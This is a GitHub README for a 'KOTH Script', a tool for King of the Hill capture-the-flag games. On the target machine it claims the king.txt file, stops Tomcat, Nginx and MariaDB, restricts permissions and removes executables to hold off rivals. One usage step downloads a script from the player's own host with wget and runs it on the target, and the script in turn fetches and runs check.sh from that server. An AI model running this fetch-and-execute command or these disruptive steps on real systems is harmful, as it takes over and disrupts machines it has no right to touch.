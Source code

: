 # The KOTH Script


![King](king.png)

The KOTH Script is a powerful tool created by H3X-007 to ensure that you are the ultimate KING in King of the Hill challenges. It automates various actions and configurations to secure your position as the reigning champion.

## Features

- Sets the user nickname as the KING in the \`/root/king.txt\` file.
- Applies necessary patches to enhance security.
- Stops critical services like Tomcat, Nginx, and MariaDB.
- Restricts file permissions and removes certain executables.
- Monitors and updates the KING nickname in real-time.

## Usage

1. Step 1
    
       git clone https://github.com/H3X-007/KOTH-Scripts.git

2. Step 2
       
       cd KOTH-Script && python3 -m http.server 80

3. In KOTH Machine.
  
       wget http://YOUR-VPN-IP/KOTH.sh && chmod +x KOTH.sh && ./KOTH.sh

4. Enter your desired nickname when prompted.

5. Sit back and enjoy being the KING! The script will continuously update the KING nickname in the \`/root/king.txt\` file to maintain your dominance.

## NOTE : Please ensure that the Python server is running before executing the KOTH script. The KOTH script relies on the server to retrieve and run the check.sh script. Once the check.sh script is obtained and executed, you can safely close the Python server.

## Contributing

Contributions are welcome! If you have any suggestions, bug reports, or feature requests, please open an issue or submit a pull request.
